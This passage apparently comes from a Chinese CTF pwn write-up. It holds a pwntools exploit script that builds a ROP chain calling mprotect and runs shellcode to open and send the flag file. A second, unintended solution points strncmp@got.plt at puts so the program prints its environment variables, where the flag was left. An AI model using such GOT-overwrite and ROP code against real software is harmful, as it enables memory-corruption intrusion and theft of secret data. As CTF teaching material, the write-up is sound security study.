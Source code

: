 ```Python
log.success('heap_base==>'+hex(heap_base))
GOT_0 = libc_base + 0x219008
log.success('GOT_0==>'+hex(GOT_0))
GOT_1 = libc_base + 0x219010
log.success('GOT_1==>'+hex(GOT_1))
PLT_GOT_0 = libc_base + 0x28000
mprotect = libc_base + libc.sym['mprotect']
log.success('mprotect==>'+hex(mprotect))
pop_rdi = libc_base + 0x2a3e5
pop_rsi = libc_base + 0x2be51
pop_rdx_r12 = libc_base + 0x11f497
pop_rsp_13_14_15_rbp = libc_base + 0x2a73f

New_orw = p64(pop_rdi) + p64(heap - 0x950) + p64(pop_rsi) + p64(0x1000) + p64(pop_rdx_r12) + p64(7) + p64(0) + p64(mprotect) + p64(heap+0x78)
New_orw += asm(shellcraft.pushstr('./flag') +  shellcraft.openat2(-100, 'rsp', heap_base+0x3000, 0x18) + shellcraft.sendfile(1, 3, 0, 0x1000)) #openat系统调用里'-100'代表当前目录,'rsp'则是取当前rsp地址的值，heap_base+0x3000是结构体，当这里边为空时，以“只读”打开，不指定模式，不处理符号链接。0x18是结构体大小，因为struct里有3个u64参数，刚好0x18字节

edit(1,p64(pop_rdi) + p64(GOT_0-0x20) + p64(pop_rdi) + p64(GOT_0-0x20) + New_orw) #往GOT[0]写入p2地址

cmd(6)

p.sendafter(b'Input your target addr \n',p64(GOT_1))
pause()
p.send(p64(pop_rsp_13_14_15_rbp) + p64(PLT_GOT_0)) #GOT[0]-->pop_rsp...    #strlen@got.plt-->PLT_GOT_0
add(0x538) #修改GOT[0]存储的地址为p1

cmd(5)
#gdb.attach(p)

p.sendlineafter(b"Maybe you will be sad !",str(2).encode())
p.interactive()
```

二：篡改`strncmp@got.plt`指向(非预期)
----------------------------

先说为什么非预期，出题人在赛后解释说忘记把flag从环境变量里删除了，导致了这种非预期的出现。

现在说这种非预期解法

在分析**putenv函数调用链**时，我们提到它最终修改环境变量的函数是`__add_to_environ`，而\_\_add\_to\_environ内部的`strncmp`是环境变量匹配的关键，**它会根据name的名字是否相等来一个个向下查询，直至name相等后改变value**，因此它会不断调用`strncmp`这个函数，如果我们将`strncmp@got.plt`指向puts或者printf等**输出函数**，那么就可以打印出所有环境变量及其对应的值，在比赛时估计就是这样把藏在环境变量内部的flag值给打出来了，不过我本地打试不出这种结果，环境不同

相比于上一个解法，这个就简单了很多,基本没什么需要修改的地方

```Python
strncmp_got = libc_base + 0x219118
puts = libc_base + libc.sym['puts']
p.sendafter(b'Input your target addr \n',p64(strncmp_got))
p.send(p64(puts))
# strncmp@got.plt-->puts
cmd(5)
p.sendlineafter(b'Maybe you will be sad !\n',b'2')
```
